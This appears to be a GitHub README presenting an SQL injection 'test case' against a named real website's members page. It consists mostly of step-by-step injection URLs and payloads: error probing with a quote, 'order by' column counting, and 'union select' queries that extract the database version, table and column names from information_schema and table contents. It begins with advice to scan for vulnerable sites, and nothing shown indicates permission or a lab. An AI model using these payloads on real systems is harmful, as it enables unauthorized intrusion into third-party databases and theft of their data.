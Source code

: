 # Test Case
## How SQL Injection Works?
The types of attacks that can be performed using SQL injection vary depending on the type of database engine.
Website Name: “ASFAA MEMBERS”
* Step 01) Search unprotected or unsecure website. We will scan for vulnerable SQL sites
Having;  php?id=1
![image](https://user-images.githubusercontent.com/61589430/204821259-4ba31b79-0cef-4257-ae25-b9ac46d8a0c0.png)

 
* Step 02) Identify vulnerability
By adding “ ‘ ” at the end of URL
If database error occurs this means vulnerability is present.
COMMAND:  http://www.asfaa.org/members.php?id=1’


* Step 3) Find number of columns in database
Command:  http://www.asfaa.org/members.php?id=1 order by 1
If no change in site, it means column 1 is exist in database of this site.


* Step 4) Check until you will find exact number of columns
Command:  http://www.asfaa.org/members.php?id=1 order by 5
Warning occur at order by 5 means site has only 4 columns
 
* Step 5) Total number of columns are 4
 

* Step 6) Find open door to get information
Command:  http://www.asfaa.org/members.php?id=-1 union select 1,2,3,4
 
* Step 7) Find version of Database
Command:  -1 union select 1,@@version,3,4
 
* Step 8) Find the name of database.
Command: -1 union select 1,group_concat(database()),3,4
 
* Step 9) Find name of Tables in database
Command:  -1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
 
* Step 10) Find columns name in a table
Command:  -1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name="atelier"
 
* Step 11) Information inside Columns (entries)
Commands: -1 union select 1,group_concat(id,0x3a,categoria),3,4 from atelier

 
